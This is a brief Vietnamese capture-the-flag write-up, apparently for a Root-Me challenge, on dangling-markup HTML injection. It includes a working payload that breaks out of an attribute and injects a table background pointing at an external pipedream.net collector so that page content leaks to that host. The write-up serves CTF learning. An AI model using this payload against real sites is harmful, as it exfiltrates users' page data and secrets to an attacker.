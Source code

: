 - Tham khảo nội dung ở
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection  

- Ta thử với payload:

```
challenge01.root-me.org:58030/page?user="><table/background='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?
```
- Nhận được kết quả:

![1](1/../img/19/Screenshot%20from%202023-01-29%2012-48-02.png)

- Sau đó ta report là được:

![1](1/../img/19/Screenshot%20from%202023-01-29%2012-45-14.png)
